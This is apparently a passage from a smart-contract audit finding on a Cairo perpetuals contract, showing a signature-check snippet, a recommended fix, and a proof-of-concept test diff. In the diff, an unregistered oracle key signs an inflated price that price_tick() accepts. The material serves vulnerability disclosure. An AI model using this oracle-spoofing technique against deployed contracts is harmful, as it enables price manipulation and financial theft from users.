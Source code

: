 ```
        + signed_price.timestamp.into();
    let msg_hash = core::pedersen::pedersen(packed_asset_oracle, packed_price_timestamp);
    validate_stark_signature(
        public_key: signed_price.signer_public_key,
        :msg_hash,
        signature: signed_price.signature,
    );
}
```

### Recommended mitigation steps

Panic if the supplied `signed_price.signer_public_key` maps to an empty packed oracle name + asset name.

### Proof of Concept

* Place the modified `test_price_tick_basic()` in `test_core.cairo`
* Execute with `scarb test test_price_tick_basic`
* The test shows how an invalid oracle can provide signature for `price_tick()`
```

 fn test_price_tick_basic() {
     let cfg: PerpetualsInitConfig = Default::default();
     let token_state = cfg.collateral_cfg.token_cfg.deploy();
     let mut state = setup_state_with_pending_asset(cfg: @cfg, token_state: @token_state);
     let mut spy = snforge_std::spy_events();
     let asset_name = 'ASSET_NAME';
     let oracle1_name = 'ORCL1';
     let oracle1 = Oracle { oracle_name: oracle1_name, asset_name, key_pair: KEY_PAIR_1() };
     let synthetic_id = cfg.synthetic_cfg.synthetic_id;
     cheat_caller_address_once(contract_address: test_address(), caller_address: cfg.app_governor);
     state
         .add_oracle_to_asset(
             asset_id: synthetic_id,
             oracle_public_key: oracle1.key_pair.public_key,
             oracle_name: oracle1_name,
             :asset_name,
         );
     let old_time: u64 = Time::now().into();
     let new_time = Time::now().add(delta: MAX_ORACLE_PRICE_VALIDITY);
     assert!(state.assets.get_num_of_active_synthetic_assets() == 0);
     start_cheat_block_timestamp_global(block_timestamp: new_time.into());
     cheat_caller_address_once(contract_address: test_address(), caller_address: cfg.operator);
-    let oracle_price: u128 = ORACLE_PRICE;
+    // @audit can set whatever price here
+    let oracle_price: u128 = ORACLE_PRICE*1000;
     let operator_nonce = state.get_operator_nonce();
+
+    // @audit use key pair 3 even though the public key hasn't been added through add_oracle_to_asset()
+    let malicious_oracle_signer = Oracle {oracle_name: '', asset_name: '', key_pair: KEY_PAIR_3()};
+
     state
         .price_tick(
             :operator_nonce,
             asset_id: synthetic_id,
             :oracle_price,
+            // @audit invalid oracle
             signed_prices: [
-                oracle1.get_signed_price(:oracle_price, timestamp: old_time.try_into().unwrap())
+                malicious_oracle_signer.get_signed_price(:oracle_price, timestamp: old_time.try_into().unwrap())
```